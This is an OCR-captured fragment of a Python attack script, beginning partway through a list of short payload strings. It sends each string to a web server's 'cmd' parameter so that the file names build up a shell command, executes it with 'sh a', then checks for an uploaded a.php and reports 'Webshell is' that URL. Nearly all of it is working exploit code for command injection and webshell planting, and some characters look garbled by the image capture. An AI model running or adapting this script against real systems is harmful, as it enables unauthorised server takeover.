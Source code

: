 ```python
'>\\|\\',
'>4=\\',
'>Pz\\',
'>k7\\',
'>XS\\',
'>sx\\',
'>VF\\',
'>dF\\',
'>X0\\',
'>gk\\',
'>bC\\',
'>Zh\\',
'>ZX\\',
'>Ag\\',
'>aH\\',
'>9w\\',
'>PD\\',
'>S}\\',
'>IF\\',
'>{\\',
'>\\$\\',
'>ho\\',
'>ec\\',


'sh z',
'sh a'
]

def writeFile(payload):
	data={
	"cmd":payload
	}
	requests.post(url,data=data)

def run():
	for p in payload:
		writeFile(p.strip())
		print("[*] create "+p.strip())
		time.sleep(1)

def check():
	response = requests.get(url+"a.php")
	if response.status_code == requests.codes.ok:
		print("[*] Attack success!!!Webshell is "+url+"a.php")

def main():
	run()
	check()

if __name__ == '__main__':
	main()

```

